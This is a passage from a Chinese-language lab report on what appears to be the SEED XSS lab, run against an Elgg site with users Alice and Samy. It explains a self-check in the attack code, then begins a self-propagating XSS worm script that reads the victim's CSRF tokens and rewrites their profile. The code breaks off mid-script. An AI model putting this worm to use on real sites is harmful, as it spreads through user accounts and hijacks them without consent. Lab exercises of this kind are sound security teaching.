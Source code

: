 登录 Alice 账号，查看 Samy 的 profile，看到自己的 profile 已经被修改了

<img src="./../assets/post/images/591YdwBxD7M3Xcv.png" alt="image-20210720174019161" style="zoom:67%;" />

> **Question 3**: Why do we need Line 14? Remove this line, and repeat your attack. Report and explain your observation.

这行用来判断当前用户是不是攻击者自身，如果是，就不进行攻击。如果去掉这行代码，会导致攻击者保存自己的 profile 后，description 立即被改变，无法实施攻击。

# Task 6: Writing a Self-Propagating XSS Worm

这个 Task 实现脚本自身的复制传播。

## Link Approach

只要让代码调用自己网站的 js，再把刚刚的代码放入自己网站的 js 中即可。它和下面 DOM 原理一模一样，没啥区别。这里我找来找去没找到实验提供的站点来放 js，所以就先跳过。:(

## DOM Approach

编辑 Samy 的 profile，使其可以把自己赋值到别人的 profile 中

```html
<script id="worm">
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    window.onload = function(){
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        
        var content=token + ts + userName +
            "&description=" + wormCode + "&accesslevel[description]=2" + 
            "&briefdescription=samy%20is%20my%20hero&accesslevel[briefdescription]=2" +
            guid;
        var samyGuid=59;
        var sendurl="http://www.seed-server.com/action/profile/edit";
        
        if(elgg.session.user.guid!=samyGuid)
        {
```